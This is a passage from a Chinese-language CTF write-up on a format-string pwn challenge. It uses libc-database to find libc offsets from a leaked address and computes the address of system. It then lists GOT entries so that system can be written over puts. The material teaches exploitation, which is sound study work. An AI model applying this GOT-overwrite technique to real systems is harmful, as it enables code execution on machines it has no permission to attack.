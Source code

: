 然后非常喜欢这个dump功能：
​    

```
mask@mask-virtual-machine:~/libc-database$ ./find __libc_start_main 0xb7e21540
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu9_amd64)
mask@mask-virtual-machine:~/libc-database$ ./dump libc6_2.23-0ubuntu9_i386
offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6300
offset_read = 0x000d5af0
offset_write = 0x000d5b60
offset_str_bin_sh = 0x15b9ab
```

很赞！！

那么
`system_addr` = `__libc_start_main_ret`-`0x18637`+`offset_system` =  `0xB7E43DA0`

验证一下：
​    

```
gdb-peda$ print system
$3 = {<text variable, no debug info>} 0xb7e43da0 <__libc_system>
```

然后就是要吧system_addr写到put地址处

```
mask@mask-virtual-machine:~/format_pwn/CCTF$ objdump -R pwn3 
```

```
pwn3： 文件格式 elf32-i386
```

```
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE  VALUE 
08049ffc R_386_GLOB_DAT__gmon_start__
0804a060 R_386_COPYstdin@@GLIBC_2.0
0804a080 R_386_COPYstdout@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   setbuf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   strcmp@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a018 R_386_JUMP_SLOT   bzero@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   fread@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   strcpy@GLIBC_2.0
0804a024 R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804a028 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a02c R_386_JUMP_SLOT   __gmon_start__
0804a030 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a034 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a038 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
0804a03c R_386_JUMP_SLOT   strncmp@GLIBC_2.0
```
